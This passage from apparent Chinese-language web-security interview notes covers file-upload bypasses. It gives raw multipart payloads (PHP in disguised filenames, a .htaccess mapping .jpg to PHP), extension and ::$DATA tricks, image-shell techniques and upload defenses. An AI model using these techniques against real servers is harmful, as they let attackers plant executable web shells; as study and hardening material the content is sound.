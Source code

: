 #### 4、文件名+；号

```
Content-Disposition: form-data; name="file"; filename="6;.php"
Content-Type: image/jpeg
<?php phpinfo()?>
-----------------------------127619278770
```

#### 5、文件名+‘

```
Content-Disposition: form-data; name="file"; filename="7'.php"
Content-Type: image/jpeg
<?php phpinfo()?>
-----------------------------127619278770
```

#### 6、上传.htaccess

```
Content-Disposition: form-data; name="file"; filename=".htaccess"
Content-Type: image/jpeg
AddType application/x-httpd-php jpg
-----------------------------127619278770
```

#### 文件上传常见绕过方法

禁用js，抓包修改后缀，上传phtml php3 php4 php5 Php php (空格) php，pphphp，抓包修改content-type，添加文件头，如GIF98a，win系统解析漏洞绕过（win服务器比较难报出来，一般是知道它的绝对路径特点，有盘符可能为win   二是利用错误文件报错如正确为index.php,改为错误的1index.php 或者index.xxxx,如果报错服务器中间件信息为iis那它是win服务器）

绕过：
1、上传1.php(或者图片马)，抓包改为1.php.
2、上传1.php(或者图片马)，抓包改为1.php::$DATA
3、上传1.php(或者图片马)，抓包改为1.php:1.jpg
4、上传1.php(或者图片马)，抓包改为1.php::$DATA



#### 文件上传如何防护?白名单校验和黑名单校验

文件名包括过滤文件后缀名,修改上传后的文件名(可以是基于时间的随机字符串),同时禁止文件路径对外展示  
文件内容主要是针对图片马,对文件进行二次渲染,这是最变态的一种方式,可以避免大部分文件上传漏洞
其次是权限,文件上传目录取消执行权限,使上传的脚本不能执行



#### 二次渲染了解过吗?你是怎么确定加入shell的位置的

在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），处理后在放到网站对应的标签进行显示，把原图片和上传之后的图片进行对比，有相同的地方就可以合成图片马

### 文件包含

#### 文件包含的函数有哪些? include和require的区别
